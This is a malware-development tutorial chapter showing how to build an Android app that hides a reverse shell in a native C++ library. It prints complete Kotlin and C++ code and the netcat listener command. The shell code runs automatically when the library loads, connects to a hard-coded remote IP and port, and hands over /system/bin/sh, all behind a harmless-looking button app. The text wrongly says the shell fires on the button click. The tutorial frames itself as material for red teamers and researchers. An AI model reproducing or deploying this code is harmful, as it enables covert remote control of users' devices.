

\newpage
\subsection{7. mobile malware development trick. Reverse shell. Simple Android (C/C++) example.}

﷽

{width="80%"}      

We all know that `msfvenom` has a module that can add a reverse shell payload to an `apk` that has been built. But how could this be done programmatically? To take a little look under the hood of this logic?     

I will not write about installing your working environment, you can just follow the instructions from the [official Android Studio page](https://developer.android.com/studio), everything is described very well there.      

### practical example

We'll walk through how to create a reverse shell for an Android app that communicates with a remote host.      

Your project looks like there (`HackRev`):     

{width="80%"}       

As you can see, we'll be combining both `Java` for the Android app interface and `C/C++` for the reverse shell logic. This tutorial will help you understand how to combine Android development with native code for penetration testing purposes. Let's break this down and look at the code in detail.      

Let's start by looking at the Android app part. We'll create a simple button that triggers a Toast message and also loads a native library that contains the reverse shell functionality:     

```kotlin
package com.example.hackrev

import android.os.Bundle
import androidx.activity.ComponentActivity
import android.widget.Button
import android.widget.Toast

class MainActivity : ComponentActivity() {
    private lateinit var meowButton: Button
    override fun onCreate(savedInstanceState: Bundle?) {
        super.onCreate(savedInstanceState)
        setContentView(R.layout.activity_main)

        // initialize the button that will trigger the reverse shell
        meowButton = findViewById(R.id.meowButton)
        
        // setting up a click listener for the button to display a Toast message
        meowButton.setOnClickListener {
            Toast.makeText(
                applicationContext,
                "Meow! ♥\uFE0F I Love Bahrain \uD83C\uDDE7\uD83C\uDDED",
                Toast.LENGTH_SHORT
            ).show()
        }

        // load the native library containing the reverse shell logic
        System.loadLibrary("reverse-shell")
    }
}
```

The `MainActivity` contains a button that, when clicked, shows a simple Toast message.     

We then load a native library called reverse-shell using `System.loadLibrary()`. This library contains our `C/C++` reverse shell code.      

### C/C++ reverse shell

Now, let's dive into the `C/C++` code that's used to create the reverse shell. This code is responsible for establishing a connection to the remote host and redirecting the input/output streams to the socket:     

```cpp
#include <cstdio>
#include <cstdlib>
#include <unistd.h>

#include <sys/socket.h>
#include <arpa/inet.h>
#include <netinet/in.h>
#include <sys/types.h>

// remote host to "send" shell
#define REMOTE_HOST "172.16.16.251"
#define REMOTE_PORT 4444

// use "__attribute__" to call "reverse_shell" when the library is loaded
void __attribute__ ((constructor)) reverse_shell() {
    // create child process with fork
    if (fork() == 0) {
        int rsSocket;
        struct sockaddr_in socketAddr{};

        // configure socket address
        socketAddr.sin_family = AF_INET;
        socketAddr.sin_addr.s_addr = inet_addr(REMOTE_HOST);
        socketAddr.sin_port = htons(REMOTE_PORT);

        // create socket connection
        rsSocket = socket(AF_INET, SOCK_STREAM, 0);
        connect(rsSocket, (struct sockaddr *)&socketAddr, sizeof(socketAddr));

        // redirect stdin, stdout, and stderr to the socket
        dup2(rsSocket, 0); // stdin
        dup2(rsSocket, 1); // stdout
        dup2(rsSocket, 2); // stderr

        // execute a shell
        execve("/system/bin/sh", nullptr, nullptr);
    }
}
```

As you can see, code similar like reverse shell for linux:     

`reverse_shell()` is marked with the `constructor` attribute. This ensures that this function is called automatically when the native library is loaded into memory.       

`fork()` creates a new process that will run the reverse shell logic.       

The socket connection is established using the remote host IP and port defined in the code, in my case IP `172.16.16.251`:       

{width="80%"}       

`dup2()` is used to redirect the standard input, output, and error streams (`stdin, stdout, stderr`) to the socket. This essentially connects the shell's I/O to the remote connection.      

`execve()` launches a new shell (`/system/bin/sh`) on the Android device and connects it to the remote host through the socket.       

When the Android app is opened, it will load this native library. Upon clicking the button, the reverse shell logic will be executed, creating a remote shell connection on the target device.     

### demo

On the attacker's machine, as usually use netcat or any other tool to listen for the incoming connection:    

```bash
nc -nlvp 4444
```

this will listen on port 4444 for incoming connections from the Android device:    

{width="80%"}       

After installing the app on the target device, click the button to trigger the reverse shell:     

{width="80%"}       

{height="30%"}     

{height="30%"}     

{height="30%"}     

{width="30%"}     

If everything is set up correctly, the attacker's Netcat listener will receive the shell from the Android device.     

In this tutorial, we've walked through how to build a simple reverse shell that works on an Android device. By combining Java for the frontend interface and C++ for the reverse shell functionality, we created an app that listens for user input to trigger a remote shell.      

But there is a caveat:    

{width="80%"}       

You do not have any permissions, since the user is only the one provided to you and he does not have rights to work with the file system. What reverse shell works in this case? can it be written in kotlin?     

When you do not have rights to work with the file system (for example, when restricting user rights on Android), you will not be able to use standard methods such as execve() to run external programs or access system files, since they require special permissions.    

However, you can use simpler and more legal ways to create a reverse shell that bypasses restrictions and works within the sandbox. One such method is to use sockets to establish a communication channel with a remote server, without having to write to disk.   

This example highlights how an Android app can be used to silently execute malicious code, opening the door to remote control over the device. Understanding these techniques is critical for both penetration testers and security researchers to help secure Android applications against such exploits.    

Keep in mind that this method is a basic demonstration for educational purposes, and ethical hacking practices should always be followed when testing security.    

I hope this section with practical example is useful for entry level malware researchers, red teamers, spreads awareness to the blue teamers of this simple example.    

[Android Studio](https://developer.android.com/studio)     
[Linux reverse shell](https://github.com/cocomelonc/meow/tree/master/2021-09-11-reverse-shells)     